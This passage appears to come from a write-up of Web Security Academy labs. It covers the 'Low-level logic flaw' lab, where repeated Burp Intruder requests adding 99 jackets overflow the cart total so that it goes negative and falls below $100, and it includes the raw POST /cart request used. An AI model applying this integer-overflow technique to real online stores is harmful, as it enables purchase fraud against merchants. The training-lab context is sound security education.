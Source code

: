 ```
Accept-Language: en-US,en;q=0.9
Connection: close

productId=1&redir=PRODUCT&quantity=1
```

### Lab: Low-level logic flaw

Task: Buy jacket with only $100 in your account

Solution: Observe that we can only add between 0 - 99 of a item per request using Burp. However, if we manage to add too many quantity of an item, to a point where by it reaches the maximum value of a programming language, we may cause an [integer overflow](https://en.wikipedia.org/wiki/Integer_overflow) and cause it to jump from the maximum value to the minimum value. Using this, we can then control the number of times we add '99' quantities of an item such that the resulting total cost of the request would be less than 100. We will use Burp sniper intruder, null payload as we are not using any payloads. Configure resource pool to slow down the rate of requests along with the number of payloads (e.g. indefinitely or a fixed value) to send in order to get the correct amount of requests to make such that we get a value below 100.

- At around 200 requests, value becomes negative

- 330 iterations of 99 Lightweight "l33t" Leather Jackets added using Burp Suite Sniper Intruder, Null Payload

- 2 * 99 Lightweight "l33t" Leather Jackets added manually

- 1 * 49 Lightweight "l33t" Leather Jackets added manually

- 1 * 18 Babbage Web Spray added manually

Burp Request for quickly adding items to cart to cause integer overflow

```
POST /cart HTTP/1.1
Host: 0a4f009103f2d7c0d162ff6e0040000c.web-security-academy.net
Cookie: session=Y73ykNQcXlfBt8vHN8xnrrgA3VN1MH7R
Content-Length: 36
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a4f009103f2d7c0d162ff6e0040000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a4f009103f2d7c0d162ff6e0040000c.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

productId=1&redir=PRODUCT&quantity=99
```
